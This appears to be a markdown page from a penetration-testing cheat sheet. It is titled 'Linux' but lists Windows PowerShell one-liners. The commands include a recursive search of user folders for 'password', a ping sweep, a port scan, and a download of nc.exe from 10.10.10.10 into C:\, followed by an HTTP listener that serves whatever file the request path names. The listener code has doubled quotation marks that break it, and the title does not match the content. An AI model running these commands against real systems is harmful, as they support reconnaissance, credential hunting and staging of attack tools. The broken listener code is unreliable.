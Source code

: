 ```yaml
---
title: Linux
category: Misc
order: 8
---
```


>**Help and Finding Commands**

Function | Command
------------- | -------------
help | <code> help [cmdlet] -detailed, -example, -ful </code>
Properties and Methods of object or command | <code> [object/command] | gm </code>


>**Inventory, File Search, and Counting**

Function | Command
--------- | -------
Environment Variables | <code>ls env:, ls variable: </code>
Search for Files | <code>ls -r [dir] [string] 2> $null| % {echo $_.fullname} </code>
Search for text in files | <code>ls -r c:\users | % {select-string -path $_ -pattern password} 2>$null </code>

>**Network and Firewall**


Ping Sweep | <code>1..255 | % {echo "192.168.2.$_"; ping -n 1 -w 100 192.168.2.$_ | select-string ttl} </code>
Port Scan | <code>1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("192.168.1.1", $_)) "Port $_ is open" } 2>$null </code>
Web Client Download | <code>(New-Object System.Net.WebClient).DownloadFIle("http://10.10.10.10/nc.exe", "c:\nc.exe") </code>

SimpleHTTPServer: 
{% highlight powershell %}
$Hso = New-Object Net.HttpListener 
$Hso.Prefixes.Add(""http://+:8000/"")
$Hso.Start()
While ($Hso.IsListening) {
$HC = $Hso.GetContext()
$HRes = $HC.Response
$HRes.Headers.Add(""Content-Type"",""text/plain"")
$Buf = [Text.Encoding]::UTF8.GetBytes((GC (Join-Path $Pwd ($HC.Request).RawUrl)))
$HRes.ContentLength64 = $Buf.Length
$HRes.OutputStream.Write($Buf,0,$Buf.Length)
$HRes.Close()
}
$Hso.Stop()
{% endhighlight %}
